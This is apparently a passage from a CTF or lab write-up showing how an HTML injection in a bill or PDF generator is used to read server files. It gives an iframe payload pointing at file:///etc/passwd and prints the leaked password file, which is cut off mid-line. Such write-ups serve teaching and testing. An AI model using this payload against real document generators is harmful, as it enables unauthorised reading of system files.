 ![](web_altered_order_passwd.png)

The exploit is working, we can get information on the server, but we can't have all the file. We can try to have a wider frame to get it all:

```shell
Payload='<iframe src=file:///etc/passwd height=1200px width=600px></iframe>'
```

With this payload, the bill is on 2 pages, but we can have the whole file :

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network
Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd
```